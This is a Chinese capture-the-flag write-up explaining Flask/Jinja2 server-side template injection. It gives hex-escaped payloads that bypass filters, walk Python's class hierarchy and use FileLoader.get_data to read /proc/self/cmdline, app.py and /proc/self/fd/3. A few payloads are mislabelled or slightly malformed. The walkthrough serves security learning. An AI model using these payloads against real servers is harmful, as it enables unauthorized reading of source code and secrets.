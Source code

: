 1.ssti，没什么好说的了

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

这里我用hackbar代替burp，这里用hackbar因为方便

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

2.获取类型所属的对象，后面显示被过滤了，看了大佬的文章_'.这三个被过滤了，但可以用十六进制绕过

/x5f为：字符：_

未经过16进制转换的payload为：

{{()["__class__"]}}

经过16进制转换的payload为：

{{()["\x5f\x5fclass\x5f\x5f"]}}

__class__是python的内建属性，功能和type()函数一样，都是查看对象所在的类

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

得到类属性为tuple

/1为什么要寻找类所属对象？

flask是python编写的服务，而对于python编写flask的服务，知道类型所属属性就跟做渗透的时候手收集目标信息一样重要

 

3.寻找基类

未经过16进制转换payload：

{{()["__class__"]["__mro__"][1]}}

经过16进制转换后的paylaod：

{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]}}

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)

得到基类：object

/1:什么是基类，/2为什么要去寻找基类，/3有什么作用，/4payload是什么意思

基类就是超类，属于继承技术，继承就是让类和类之间产生父子关系，子类可以拥有父类的静态属性方法。这里的父类值得是被继承的类，也叫作基类，子类指得是继承其他类的类，叫做派生类。举个例子，基于最少有两个类之间才有继承，有A,B两个类，B类继承A类，那么，A就是B的父类(又叫超类，基类)

/2:为什么要寻找基类,基类的寻找对于下面的测试就跟渗透测试中信息手收集同样重要

/3:作用就是为下面的测试进行收集

/4：payload详解：

{{()["__class__"]["__mro__"][1]}}

首先是{{}}，模板注入，必须具备的东西，这样才能被当做模板程序带入模板文件并执行

{{()}}

模板符号内的()，模板文件中，这么书写：()__class__.__base__()就是前端模板注入的标必须要写的 ，

{{()["__class__"]["__mro__"]}}

__mro__ 获取当前对象所有的父类

{{()["__class__"]["__mro__"][1]}}

[1]，如果有几个对象，则返回几个，如果这么写：

{{() ["__class__"]["__base__"]["__mro__"][2]}}

那么[2]，返回class.base这两个基类所有的父类

paylaod通读：我要通过mro获取class对象中所有的父类，且只有一个[1]对象

 

4.寻找可用引用

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image016.jpg)

执行完payload，会返回所有可以引用的对象

经过16进制转换的paylaod：

{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()}}

未经过16进制转换的payload：

{{()["__class__"]["__bases__"][0]["__subclasses__"]()}}

三个问题：

/1为什么要寻找所有可以引用的对象 /2 bases属性的作用 /3 subclasses类的作用 /4 payload什么意思

解：

/1 不同的方法，作用也不一样，调用不同的方法，可以对文件甚至对服务器进行操作

/2 __bases__ 属性的作用，通过该属性可以查看该类的所有直接父类

/3 __subclasses__属性的作用，可以获取类的所有子类 

/4 payload详解：

上面说完模板注入源码的固定写法，这里就跳过固定写法，将核心功能

{{()["__class__"]["__bases__"][0]["__subclasses__"]()}}

可以这样读这个payload：

__class__先查看所在的类的属性，获得属性(tuple)之后，__bases__属性可以直接查看这个类(tuple属性的类)的所有的直接父类，查看完所有直接的父类之后，然后__subclasses__属性直接获取所有的父类中的子类

payload通读：

我先获取这个类的属性，然后再获取这个tuple类的所有父类，然后再获取这些父类中所有的子类

5.接下来就是开始一系列利用了（基础不是很好，后面的待填坑）一些大佬的方法：

![https://img-blog.csdnimg.cn/20200629014542135.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwODAwNzM0,size_16,color_FFFFFF,t_70](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image018.gif)

接下来就是选可用的对象和调用函数了 我原本想用catch_warnings但是到最后的部分想起来.被过滤了不知道怎么调用了 看了一下wp 调用了这个类：

<class '_frozen_importlib_external.FileLoader'> ：

还是菜了(doge)

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image020.jpg)

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image022.jpg)

运行结果python/app.py文件正在运行

经过16进制转换的payload：

{{[]["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[91]["\x67\x65\x74\x5f\x64\x61\x74\x61"](0,"/proc/self/cmdline")}}

未经过16进制转换的payload：

{{[]["__class__"]["__base__"]["__subclasses__"]()[]["get_data"](0,"/proc/self/cmdline")}}

三个问题

相信看完上面的问题之后，paylaod中的属性都知道什么意思了

/1 get_data什么意思， /2为什么要读取/proc/self/cmdline目录 /3 paylaod详解

解答：

/1 读取数据

/2为什么要读取/proc/self/cmdline目录

cat该目录和查看系统pid进程号一样

/3 paylaod详解

get_data读取方法，去读取/proc/self/cmdline正在运行的程序

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image024.jpg)

经过16进制转换的paylaod：

{{[]["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x62\x61\x73\x65\x5f\x5f"]["\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f"]()[91]["\x67\x65\x74\5f\x64\x61\x74\x61"](0,"app\x2epy")}}

跟上面都一样，没什么可以解释的

获得源码，可以大体推出来的位置：

读取flag：

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image026.jpg)

![img](file:///C:/Users/iolcy/AppData/Local/Temp/msohtmlclip1/01/clip_image028.jpg)

未经过16进制编码的payload:

{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}

­经过16进制编码后的payload：

{{()["__class__"]["__bases__"][0]["__subclasses__"]()[91]["get_data"](0, "/proc/self/fd/3")}}

我为什么要读取/proc/self/fd/3这个文件呢，flag就在这个文件中